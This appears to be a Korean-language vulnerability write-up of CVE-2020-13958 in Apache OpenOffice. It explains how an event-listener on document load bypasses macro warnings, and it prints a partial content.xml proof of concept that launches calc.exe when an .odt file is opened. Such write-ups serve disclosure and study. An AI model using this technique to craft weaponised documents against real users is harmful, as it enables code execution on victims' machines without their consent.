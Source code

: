 # Apache OpenOffice RCE (CVE-2020-13958)

* Date : Apr 2020
* Credit : [Imre Rad](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
* CVSS : [N/A](https://nvd.nist.gov/vuln/detail/CVE-2020-13958)
* Affected Versions : Apache OpenOffice 4 versions before 4.1.8

## Description
Apache OpenOffice는 오픈소스 형태의 사무용 생산성 소프트웨어이며, Office 365나 LibreOffice와 유사한 기능을 제공한다. 이처럼 활용도가 높은 소프트웨어에서 논리적 취약점(logical bug)이 존재하여 RCE(Remote Code Execution)까지 연계될 수 있는 위험이 있다. 보통, 문서 편집기의 경우 매크로 악성코드가 실행되는 것을 막기 위해 매크로 실행(macro execution)들에 대해서는 사용자에게 알람이 가도록 설정(e.g., `편집 사용` 클릭하기)되어 있다. 안정성을 위해 반드시 그래야 한다. 그러나 OpenOffice의 경우 `script:event-listener` 핸들러에 대해서 매크로 실행으로 규정하고 있지 않아 해당 핸들러를 이용해 특정 사이트로 연결(이는 특정 프로그램 실행으로도 연계 가능)하는 코드를 삽입하여 특정 사이트로 연결되거나 시스템내의 특정 프로그램을 실행할 수 있게 된다. 이에 `.odt` 확장자 형태로 **calc.exe** 프로그램을 실행하는 PoC를 작성하였다. 

## PoC
```xml
<?xml version="1.0" encoding="UTF-8"?>
...
<office:scripts>
   <office:event-listeners>
   
    <script:event-listener script:language="ooo:script" xlink:href=".uno:OpenHyperlinkOnCursor" script:event-name="dom:load"/>

   </office:event-listeners>
</office:scripts>

<office:font-face-decls>...<text:a xlink:type="simple" xlink:href="file:///c:/windows/system32/calc.exe" text:style-name="Internet_20_link" text:visited-style-name="Visited_20_Internet_20_Link">Foobar</text:a></text:p><text:p text:style-name="Standard"/></office:text></office:body></office:document-content>
```

위 파일은 `.odt` 파일내에 존재하는 **content.xml** 파일의 일부이다. 이전에 언급한대로 `script:event-listener` 핸들러를 정의하고 이벤트는 DOM 객체가 load 되는 행위로 정의한다. 즉, 문서 파일을 열게 되면 실행되는 스크립트이다. 그 다음에는 `xlink:href`의 속성 값으로 실행하고자 하는 특정 파일의 경로를 지정한다. 여기서는 **calc.exe** 프로그램의 경로를 지정하여 해당 파일을 OpenOffice로 열 경우 계산기가 띄워지게 된다. 테스트는 Apache OpenOffice 4.1.7 버전에서 수행하였다.

## Demo
![demo](img/apache-openoffice-demo.gif)

## Reference
- [OpenOffice Advisory](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
- [PoC](https://github.com/irsl/apache-openoffice-rce-via-uno-links?fbclid=IwAR0dWK8OVVVU2Z1iy5Oq52CcB2tCt9Q5g4-ZvX5mM_QJ3JzGdG3ERAm6JJ4)